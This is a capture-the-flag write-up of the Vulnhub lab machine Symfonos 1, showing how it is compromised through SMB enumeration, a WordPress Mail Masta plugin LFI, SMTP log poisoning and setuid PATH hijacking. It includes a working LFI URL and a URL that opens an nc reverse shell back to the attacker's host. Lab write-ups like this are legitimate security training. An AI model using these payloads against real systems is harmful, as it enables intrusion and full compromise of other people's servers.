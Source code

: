 ```yaml
---
layout: PostSimple
date: 
title:     "Vulnhub - Symfonos 1"
tags: ['wordpress','easy','log-poisoning','smb','path','lfi','setuid']
---
```


Today, We are going to pwn Symfonos 1 by Zayotic from Vulnhub

## Description:

```
Beginner real life based machine designed to teach a interesting way of obtaining a low priv shell. SHOULD work for both VMware and Virtualbox.

    Name: symfonos: 1
    Difficulty: Beginner
    Tested: VMware Workstation 15 Pro & VirtualBox 6.0
    DHCP Enabled

Note: You may need to update your host file for symfonos.local

```
Download Link : [https://www.vulnhub.com/entry/symfonos-1,322/](https://www.vulnhub.com/entry/symfonos-1,322/)


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:42:7C:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m23s, deviation: 3h27m50s, median: 23s
|_nbstat: NetBIOS name: SYMFONOS, NetBIOS user: [unknown](unknown), NetBIOS MAC: [unknown](unknown) (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos
|   NetBIOS computer name: SYMFONOS\x00
|   Domain name: \x00
|   FQDN: symfonos
|_  System time: 2020-03-08T00:09:12-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-08T06:09:12
|_  start_date: N/A

```

## SMB:

I started with ``SMB`` we can use ``smbmap`` to see is there any files available.
>smbmap - SMB enumeration tool

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/1.png)
```
-H HOST
              IP of host
```

So ``helios`` and ``anonymous`` are there and also ``attention.txt`` file.

There is a tool called ``smbclient`` which helps to access to the server.

>smbclient - ftp-like client to access SMB/CIFS resources on servers

First I tried with ``helios`` I can't login without password, So next is ``anonymous`` which I get logged in without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/2.png)[br/](br/)
Downloaded the ``attention.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/3.png)[br/](br/)
This file contains a warning to the users to not use these password.

I tired again ``smbclient`` with ``helios`` with these 3 passwords.

> smbclient //192.168.1.101/helios -U helios

> -U, --user=USERNAME                       Set the network username

I logged in with ``qwerty`` and found 2 files, Downloaded them to my machine.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/4.png)

``research.txt``

```
Helios (also Helius) was the god of the Sun in Greek mythology. He was thought to ride a golden chariot which brought the Sun across the skies each day from the east (Ethiopia) to the west (Hesperides) while at night he did the return journey in leisurely fashion lounging in a golden cup. The god was famously the subject of the Colossus of Rhodes, the giant bronze statue considered one of the Seven Wonders of the Ancient World.
```
``todo.txt``

```
1. Binge watch Dexter
2. Dance
3. Work on /h3l105
```
``todo.txt`` told us to work on ``/h3l105`` it may be a directory. So I checked it in the webpage.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/5.png)

So Its a ``Wordpress`` site. We can use ``wpscan`` to enumerate users and plugins.

Found 2 plugins, I searched for any exploits available for them.
>wpscan --url http://symfonos.local/h3l105/ --enumerate p

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/6.png)[br/](br/)
Found this LFI 
> https://www.exploit-db.com/exploits/40290

> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/7.png)

Now time to change LFI to RCE, we can do it by ``Log poisoning``so I tried to access ``/var/log/apache2/access.log`` but its not working.
We know port ``SMTP`` is open.

>The Simple Mail Transfer Protocol is a communication protocol for electronic mail transmission.

So the user might have a mail and I found [SMTP Log poisoning](https://liberty-shell.com/sec/2018/05/19/poisoning/)

Found users mail log ``/var/mail/helios``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/8.png)

By following the article, Payload is injected [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/9.png)

Now we can get reverse shell
> http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc%20-e%20/bin/sh%20192.168.1.103%201234

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/10.png)

## Privilege Escalation:

Uploaded my Enumeration Script to the machine and found a ``SETUID`` file.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/11.png)

When I run the file it prints the header of the webpage, and I did ``strings`` found ``curl`` is working and its path is not fully defined.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/12.png)

So I checked where is ``curl`` and its is in ``/usr/bin/curl``.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/15.png)

So we can create a file to give us shell and placed it in ``/tmp`` and name it as ``curl`` and change the PATH to ``/tmp``.

This command will make the PATH to search in ``/tmp`` first
> export PATH=/tmp:$PATH

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/13.png)

Once I execute the ``statuscheck`` the ``curl`` checks in ``/tmp`` first and it will make use of our file and give us root.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos1/14.png)

Rooted!!